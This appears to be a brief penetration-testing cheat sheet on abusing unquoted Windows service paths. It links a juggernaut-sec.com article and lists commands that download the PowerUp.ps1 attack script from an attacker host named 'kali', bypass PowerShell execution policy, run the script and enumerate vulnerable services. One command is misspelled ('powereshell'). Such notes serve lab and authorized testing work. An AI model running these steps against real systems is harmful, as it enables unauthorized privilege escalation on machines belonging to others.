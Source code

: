 ## Abuse unquoted service paths

https://juggernaut-sec.com/unquoted-service-paths/

*No quotes and Space detected*

```
iwr http://kali/PowerUp.ps1 -Outfile PowerUp.ps1
```

```
powereshell -ep bypass
```

```
..\PowerUp.ps1
```

```
Get-UnquotedService
```

